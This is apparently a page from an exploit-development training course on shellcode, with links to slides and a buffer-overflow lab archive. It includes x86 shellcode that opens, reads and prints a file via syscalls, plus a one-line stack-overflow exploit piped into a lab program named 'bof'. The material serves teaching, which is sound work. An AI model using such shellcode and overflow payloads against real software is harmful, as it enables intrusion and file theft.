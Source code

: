 ==================================
Day 2 - 2 Shellcode Tips & Tricks
==================================

Below is the download link for this main PowerPoint for this section.

:download:`Shellcode Tips Tricks & Techniques PowerPoint<media/day2/shellcode_tips_tricks_techniques.pptx>` 

Activities
----------

Here is the download for the activies portion of this section, along
with text relating to the PowerPoint.

:download:`Cleaning & Shrinking Shellcode PowerPoint<media/day2/cleaning_and_shrinking_shellcode.pptx>`

:download:`bof zip<media/day2/bof2.2.zip>` 

::

    #shellcode.txt
    Shellcode:
    =========================
    mov eax, 5
    mov ebx, 0x0804a03e
    mov ecx, 0
    mov edx, 0
    int 0x80

    mov ebx, eax
    mov eax, 3
    mov ecx, 0x0804a03e
    mov edx, 30
    int 0x80

    mov eax, 4
    mov ebx, 1
    mov ecx, 0x0804a03e
    mov edx, 30
    int 0x80



    Exploit:
    =========================
    echo -en "AAAAAAAAAAAAAAAABBBB\x76\x84\x04\x08[SHELLCODE]" | bof
